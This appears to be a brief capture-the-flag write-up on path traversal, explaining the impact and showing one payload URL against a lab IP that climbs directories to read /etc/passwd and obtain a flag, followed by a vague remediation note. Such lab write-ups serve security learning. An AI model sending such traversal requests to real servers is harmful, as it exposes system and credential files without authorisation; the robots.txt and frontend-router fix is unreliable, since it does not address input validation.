 # 08_Path_traversal

Able to read arbitrary files on the server running the application.  
This might include application code and data, credentials for back-end systems, and sensitive operating system files. In some cases, an attacker might be able to write to arbitrary files on the server, allowing them to modify application data or behavior, and ultimately take full control of the server.

## Method & Manipulation

Go to http://192.168.1.59/?page=../../../../../../../etc/passwd  
And voila! a flag

## Resolve

- The Robots.txt file can be read by anyone be sure the folders listed within
 have restricted access. You can do this by using a router on the frontend. This
 is also done to ensure users do not have access to the servers files using ../
 
## Resources

https://portswigger.net/web-security/file-path-traversal
